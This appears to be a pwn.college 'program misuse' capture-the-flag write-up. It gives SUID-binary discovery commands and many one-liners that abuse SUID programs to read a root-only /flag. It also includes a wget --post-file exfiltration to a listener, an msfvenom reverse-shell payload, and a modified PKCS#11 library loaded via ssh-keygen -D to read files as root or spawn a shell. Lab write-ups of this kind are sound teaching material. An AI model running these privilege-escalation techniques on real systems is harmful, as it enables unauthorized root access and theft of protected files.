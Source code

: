 
Find a program with SUID bit permission
```bash
$ find / -user root -perm -4000 -print 2>/dev/null 
$ find / -perm -u=s -type f 2>/dev/null 
$ find / -user root -perm -4000 -exec ls -ldb {} \;
```

Program candidates with privilege escalation sample for read only `/flag` permission for root user
```bash
$ env -S cat /flag
$ genisoimage -sort /flag
$ ar -q fake.ar /flag;cat fake.ar
$ echo "/flag" | cpio -o
$ find /flag -exec cat {} \;
$ setarch x86_64 cat /flag
$ whiptail --textbox /flag 10 60
$ tar -cvf fake.tar /flag;tar xf fake.tar -O
$ tar cvf /flag -I; cat flag.tar
$ tar xf /flag -I '/bin/sh -c "cat 1>&2"'
$ socat - /flag
$ cp /flag /dev/stdout
$ mv /usr/bin/cat /usr/bin/mv; mv /flag
$ perl -ne print /flag
$ python -c 'print(open("/flag").read())'
$ bash -p
$ date -f /flag
$ gcc -E -x c /flag
$ bzip2 /flag; bzip2 -dc /flag.bz2
$ unzip -p flag.zip flag | less
$ find . -exec cat /flag {} \;
$ nice cat /flag
$ timeout 1 cat /flag
$ stdbuf -o 0 cat /flag
$ watch -x cat /flag
$ awk 'BEGIN{ while(( getline line<"/flag") > 0 ) { print line } }'
$ sed p /flag
$ dmesg -F /flag
$ wc --files0-from=/flag
$ as /flag
```

`ed`
```bash
$ ed /flag
> p
```

`wget`
```bash
$ nc -lvnp 4554 # terminal session 1
$ wget --post-file=/flag http://127.0.0.1:4554 # terminal session 2
```

`make`
Create a Makefile with the content:
```make
FLAG := $(shell cat /flag) 
ok: 
	echo $(FLAG)
```

```bash
$ make -f Makefile
```

`ruby`
Create a ruby script with the content:
```ruby
readData = File.read("/flag") 
puts readData
```

```bash
$ ruby script.rb
```

`ssh-keygen` ? yes with `-D` parameter to load dynamic shared library

```bash
$ ssh-keygen -D ourlib2shell.so #write ORW dynamic shared library to read the flag
```

My first attempt was to generate a dynamic shared library from `msfvenom`
```bash
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=127.0.0.1 LPORT=5100 -f elf-so -o lib2shell.so
```
and run `netcat` to terminal session 2.

```
./lib2shell.so does not contain expected string C_GetFunctionList
provider ./lib2shell.so is not a PKCS11 library
cannot read public key from pkcs11
```

The exploit won't work because `ssh-keygen -D ` expects pkcs11 library (maybe this will work in older version of `ssh`?) and `lib2shell.so` does not really implements pkcs11 interface.

Second attempt, going through [Sean Pesce's Research Blog](https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html)  that applies patches, also `hello.so` won't work so we need to write our own ORW that implements pkcs11 as our third attempt.

Third attempt, I found [jariq's pkcs11 projects](https://stackoverflow.com/a/65446632) , EMPTY-PKCS11 doesn't have `C_GetFunctionList` so I chose his minimal [PCKS11-MOCK](https://github.com/Pkcs11Interop/pkcs11-mock) and modified it to read the `/flag` or we can spawn a root shell.  To make this work modify the `C_Initialize` interface implementation with
```c
...
#include <stdio.h>
#include <unistd.h>
// #define SHELL_COMMAND "/bin/sh"
...

CK_DEFINE_FUNCTION(CK_RV, C_Initialize)(CK_VOID_PTR pInitArgs)
{
    puts("[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]");
    printf("Reading the flag");
    // Read the /flag file
    char flag[500];
    FILE *fp;

    fp = fopen("/flag", "r");
    if (fp == NULL) {
        printf("Could not open file /flag");
        return 1;
    }
    fgets(flag, 500, fp);
    printf("Flag: %s\n", flag);

    // long long err = execl(SHELL_COMMAND, "/bin/sh", "-c", SHELL_COMMAND, NULL);
    // printf("Result: %lld\n", err);

    if (CK_TRUE == pkcs11_mock_initialized)
        return CKR_CRYPTOKI_ALREADY_INITIALIZED;
    IGNORE(pInitArgs);
    pkcs11_mock_initialized = CK_TRUE;
    return CKR_OK;
}
```

Then run `build/linux/build.sh` to build our `pkcs11-mock.so` and transfer it to our ssh target remote connection with `scp`.
```bash
$ scp -i key -r pkcs11-mock-x64.so hacker@dojo.pwn.college:/home/hacker/
```

Run the the exploit to the target machine with 
```
hacker@program-misuse-level-51:~$ ssh-keygen -D ./pkcs11-mock-x64.so 
[pkcs11-mock by relro for pwn.college level 51 HARDDDDDDD]
Reading the flag
Flag: pwn.college{you_need_to_perform_this_okay?}

C_GetAttributeValue failed: 18
Enter PIN for 'Pkcs11Interop': 
```

It works, this will work also in your current linux machine with ssh-keygen. You better check your program's permissions and nuke them if needed so.

# References
https://pwn.college/fundamentals/program-misuse

https://hurricane618.me/2022/05/26/pwn-college-writeup-one/

https://seanpesce.blogspot.com/2023/03/leveraging-ssh-keygen-for-arbitrary.html

https://github.com/Pkcs11Interop/pkcs11-mock

https://medium.com/@D00MFist/generate-keys-or-generate-dylib-loads-c99ed48f323d

https://stackoverflow.com/questions/65444761/how-to-go-about-writing-a-pkcs11-wrapper-around-my-device
